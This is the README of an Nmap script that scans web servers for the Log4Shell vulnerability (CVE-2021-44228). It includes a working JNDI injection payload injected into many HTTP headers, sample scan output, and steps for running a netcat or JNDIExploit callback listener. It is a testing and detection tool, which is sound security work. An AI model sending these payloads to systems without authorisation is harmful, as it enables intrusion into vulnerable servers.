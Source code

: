 # Nmap Log4Shell NSE script for discovery Apache Log4j RCE (CVE-2021-44228)

**CVE-2021-44228** is a remote code execution (RCE) vulnerability in Apache Log4j 2. An unauthenticated, remote attacker could exploit this flaw by sending a specially crafted request to a server running a vulnerable version of log4j. The crafted request uses a Java Naming and Directory Interface (JNDI) injection via a variety of services including:

-  Lightweight Directory Access Protocol (LDAP)
-  Secure LDAP (LDAPS)
-  Remote Method Invocation (RMI)
-  Domain Name Service (DNS)

If the vulnerable server uses log4j to log requests, the exploit will then request a malicious payload over JNDI through one of the services above from an attacker-controlled server. Successful exploitation could lead to RCE.


## Installation

Locate where your nmap scripts are located on your system:

- for *nix system it might be `~/.nmap/scripts/` or `$NMAPDIR`
- for Mac it might be `/usr/local/Cellar/nmap/<version>/share/nmap/scripts/`
- for Windows it might be `C:\Program Files (x86)\Nmap\scripts`

Copy the provided script (log4shell.nse) into that directory run `nmap --script-updatedb` to update the nmap script DB.


## Usage

    nmap --script log4shell.nse --script-args log4shell.callback-server=172.17.42.1:1389 -p 8080 172.17.42.2 
    Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-13 21:26 CET
    Nmap scan report for 172.17.42.1
    Host is up (0.000096s latency).

    PORT     STATE SERVICE
    8080/tcp open  http-proxy
    | log4shell: 
    |   Payload: ${jndi:ldap:/172.17.42.1:389/log4shell}
    |   Path: /
    |   Method: GET
    |   Headers: 
    |     Access-Control-Request-Method: 200 
    |     Accept: 200 
    |     Access-Control-Request-Headers: 200 
    |     Accept-Charset: 200 
    |     X-Api-Version: 200 
    |     Warning: 200 
    |     Pragma: 200 
    |     Upgrade-Insecure-Requests: 200 
    |     Range,: 400 
    |     Hostname: 200 
    |     Content-Length: 400 
    |     Dnt: 200 
    |     Date: 200 
    |     Username: 200 
    |     Content-Encoding: 200 
    |     Content-Type: 200 
    |     Forwarded: 200 
    |     Max-Forwards: 200 
    |     Accept-Encoding: 200 
    |     Referer: 200 
    |     IP: 200 
    |     IPaddress: 200 
    |     X-Amz-Date: 200 
    |     X-Amz-Target: 200 
    |     TE: 200 
    |     Content-Disposition: 200 
    |     X-Requested-With: 200 
    |     upgrade-insecure-requests: 200 
    |     Authorization: 200 
    |     Cookie: 200 
    |     User-Agent: 200 
    |     Accept-Language: 200 
    |     Proxy-Authorization: 200 
    |     Expect: 417 
    |     From: 200 
    |     Accept-Datetime: 200 
    |     X-CSRF-Token: 200 
    |     Origin: 200 
    |_  Note: (!) Inspect the callback server (172.17.42.1:389) or web-application (172.17.42.2:8080) logs

#### Arguments

- `log4shell.callback-server`: The callback server (eg. `172.17.42.1:1389`)
- `log4shell.http-headers`: Comma-separated list of HTTP headers (eg. `X-Api-Version,User-Agent,Referer`)
- `log4shell.http-method`: HTTP method (default: `GET`)
- `log4shell.url-path`: URL path (default: `/`)


### Method A:

Download JNDIExploit from GitHub (https://github.com/giterlizzi/JNDIExploit/releases/download/v1.2/JNDIExploit.zip)

Start JNDIExploit server:

    java -jar JNDIExploit.jar

Run Nmap with --script log4shell.nse script

    nmap --script log4shell.nse [--script-args log4shell.callback-server=127.0.0.1:1389] [-p <port>] <target>

See JNDIExploit output for see the received LDAP query

    [+] Received LDAP Query: log4shell
    [!] Invalid LDAP Query: log4shell

### Method B:

Listen a TCP port with netcat (or ncat):

    ncat -vkl 1389   # Ncat
    nc -lvnp 1389    # Netcat

Run Nmap with --script log4shell.nse script

    nmap --script log4shell.nse [--script-args log4shell.callback-server=127.0.0.1:1389] [-p <port>] <target>

See the target IP address in netcat (or ncat) output:

    Ncat: Connection from 172.17.0.2.
    Ncat: Connection from 172.17.0.2:38898.


# Legal Disclaimer

This project is made for educational and ethical testing purposes only. Usage of nmap-log4shell for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program.


# License

The project is licensed under MIT License.


# Author

- Giuseppe Di Terlizzi (giterlizzi)
